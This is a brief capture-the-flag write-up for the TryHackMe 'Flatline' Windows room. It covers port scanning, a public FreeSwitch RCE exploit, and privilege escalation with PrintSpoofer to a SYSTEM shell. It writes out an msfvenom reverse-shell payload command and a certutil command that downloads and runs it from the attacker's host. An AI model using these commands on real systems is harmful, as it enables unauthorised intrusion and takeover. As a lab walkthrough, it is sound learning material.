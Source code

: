 # Flatline

https://tryhackme.com/room/flatline

A simple windows machine CTF

1. A rustscan revealed 3389 and 8021. It was blocking pings, so doing a detailed scan with `nmap -A -Pn -p 3389,8021` revealed a windows machine running something called 'FreeSwitch'
2. On exploit-db there were two scripts for FreeSwitch that promised RCE. The metasploit one seemed to assume a linux target, so I used the python script: https://www.exploit-db.com/exploits/47799. This with the command 'whoami' proved remote code execution.
3. I created an msfvenom payload on my kali machine with `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.143.37 LPORT=4444 EXITFUNC=thread -f exe-only > shell4444.exe`, then served this with a python webserver. Using certutil, I downloaded it to the machine `certutil.exe -urlcache -split -f "http://10.10.143.37:4444/shell4444.exe" shell4444.exe` and then executed it to get a remote shell as the user nekrotic.
4. `whoami /priv` showed the user had the `SeImpersonatePrivilege` right, and `systeminfo` showed this was a 64bit machine. So I downloaded the 64bit version of printspoofer (https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0), created another msfvenom reverse shell payload, downloaded both to the box and used printspoofer to run the new rev shell exe. This got me a system shell.

Easy peasy.
